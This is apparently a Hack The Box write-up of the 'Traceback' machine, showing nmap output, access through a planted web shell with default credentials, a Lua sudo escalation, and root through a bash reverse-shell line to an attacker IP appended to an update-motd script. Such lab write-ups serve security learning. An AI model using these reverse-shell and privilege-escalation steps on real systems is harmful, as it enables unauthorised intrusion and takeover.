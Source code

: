 ```yaml
---
featured_image: "/posts/Traceback/traceback.png"
title : HTB 17/20 Traceback
published : true
date: 2021-04-26
description: "Traceback Writeup"
author : PS
---
```

## Foothold
*nmap*
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-28 22:00 EEST
Nmap scan report for 10.10.10.181
Host is up (0.086s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.51 second
```
![img](1.png)
![img](2.png)
![img](3.png)
![img](4.png)
After manually trying to access one of those web shell I've managed to find one  
![img](5.png)
The default password is admin:admin  
![img](6.png)
run this , and also have a nc opened  
```bash
>>> nc -nlvp 6969
Connection from 10.10.10.181:37518
bash: cannot set terminal process group (716): Inappropriate ioctl for device
bash: no job control in this shell
webadmin@traceback:/var/www/html$ 
```
## User
```bash
webadmin@traceback:/var/www/html$ ls
ls
bg.jpg
index.html
smevk.php
webadmin@traceback:/var/www/html$ cd ~ 
cd ~
webadmin@traceback:/home/webadmin$ ls
ls
note.txt
webadmin@traceback:/home/webadmin$ cat note.txt
cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
webadmin@traceback:/home/webadmin$ 
```
```bash
webadmin@traceback:/home$ sudo -l
sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
webadmin@traceback:/home$ 
```
```bash
webadmin@traceback:/home/webadmin$ echo "require('os');" > priv.lua
echo "require('os');" > priv.lua
webadmin@traceback:/home/webadmin$ echo "os.execute('/bin/bash');" >> priv.lua
<badmin$ echo "os.execute('/bin/bash');" >> priv.lua
webadmin@traceback:/home/webadmin$ sudo -u sysadmin /home/sysadmin/luvit ./priv.lua
<n$ sudo -u sysadmin /home/sysadmin/luvit ./priv.lua
ls
note.txt
priv.lua
privesc.lua
whoami
sysadmin
bash -i                                         
bash: cannot set terminal process group (716): Inappropriate ioctl for device
bash: no job control in this shell
sysadmin@traceback:/home/webadmin$ 
sysadmin@traceback:/home/webadmin$ cd ~
cd ~
sysadmin@traceback:~$ ls
ls
luvit
user.txt
sysadmin@traceback:~$ cat user.txt
cat user.txt
6eee71d3bb03f0ed1dc500de6b4c54e0
sysadmin@traceback:~$ 
```
## Root
After uploading linpeas we find an interesting process updatemotd.d
```bash
sysadmin@traceback:~$ cd /etc/update-motd.d/
cd /etc/update-motd.d/
sysadmin@traceback:/etc/update-motd.d$ ls
ls
00-header
10-help-text
50-motd-news
80-esm
91-release-upgrade
sysadmin@traceback:/etc/update-motd.d$ 
```
I tried to use 
```bash
sysadmin@traceback:/etc/update-motd.d$ echo "'bash -i >& /dev/tcp/10.10.14.7/9191 0>&1'" >> 00-header
< -i >& /dev/tcp/10.10.14.7/9191 0>&1'" >> 00-header
sysadmin@traceback:/etc/update-motd.d$ 
```
It was not working ,so i tried a python reverse shell , also you have to have a new ssh session , do that and kaboomm you get root  
PS out 
